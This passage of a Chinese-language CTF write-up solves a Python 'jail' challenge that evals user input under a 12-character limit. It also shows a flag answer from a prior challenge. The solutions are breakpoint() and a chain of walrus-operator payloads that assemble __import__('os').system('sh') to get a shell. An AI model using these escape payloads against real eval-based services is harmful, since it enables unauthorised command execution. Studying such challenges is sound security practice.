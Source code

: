 
### 其他尝试
```
help()指令

注意：本题不能使用help指令，因为不会造成--more--
```

最后答案
```
flag{oipkuRO1O3wADvFe3lfIHrvGb3dWH4k-}
```

---

## CHALLENGE: Jail Level 1

题目给的
```python
print("Welcome to the MoeCTF2023 Jail challenge level1.It's time to work on this calc challenge.")
print("Enter your expression and I will evaluate it for you.")
user_input_data = input("> ")
if len(user_input_data)>12:
  print("Oh hacker! Bye~")
  exit(0)
print('calc Answer: {}'.format(eval(user_input_data)))
```

这个比上个题多了个检查，如果是13字符及以上就不给你做，所以我们采用下面方法

### 方法1
```python
breakpoint()
```
因为这个长度刚好是12，非常容易想到

### 方法2
海象运算符
```python
(a:='')
(a:=a+'__i')
(a:=a+'mpo')
(a:=a+'rt_')
(a:=a+'_("')
(a:=a+'os"')
(a:=a+').s')
(a:=a+'yst')
(a:=a+'em(')
(a:=a+'"sh')
(a:=a+'")')
eval(a)
```
我们可以让每个payload长度小于等于12，然后由此拿到shell
